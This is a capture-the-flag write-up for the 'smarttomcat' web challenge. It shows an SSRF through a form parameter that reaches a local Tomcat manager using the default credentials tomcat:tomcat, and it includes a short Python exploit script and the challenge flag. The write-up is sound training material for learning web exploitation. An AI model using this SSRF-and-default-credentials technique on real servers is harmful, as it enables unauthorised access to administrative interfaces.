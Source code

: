 ```yaml
---
title: smarttomcat (Web 50)
category: INST17
author_member: avarx
show_comments: false
---
```




>Normal, regular cats are so 2000 and late, I decided to buy this allegedly smart tomcat robot
Now the damn thing has attacked me and flew away. I can't even seem to track it down on the broken search interface... Can you help me ?

![website](/images/INST17/INST17_website.png "website")

We can submit coordinates to find the cat.
If we check the source code we can see that a **POST** is done to **index.php** with **localhost:8080** and a **jsp** file as **u-parameter**.

![source](/images/INST17/INST17_source.png "source")


Together with the task title we assume it's a **tomcat**.
Tomcat's got that [**manager**](https://tomcat.apache.org/tomcat-7.0-doc/manager-howto.html). Let's try **standard credentials**:


```
#!/usr/bin/env python

import requests
import re

TARGET_URL = 'http://smarttomcat.teaser.insomnihack.ch/'
TOMCAT_USER = 'tomcat'
TOMCAT_PASS = 'tomcat'
PAYLOAD = "http://"+TOMCAT_USER+":"+TOMCAT_PASS+"@localhost:8080/manager/html"

answer = requests.post(TARGET_URL, data={'u':PAYLOAD})
flag = re.findall(r"(INS\{...+\})", answer.text)

print(flag[0])
```
**INS{th1s_is_re4l_w0rld_pent3st}**

created by xel/grimmlin

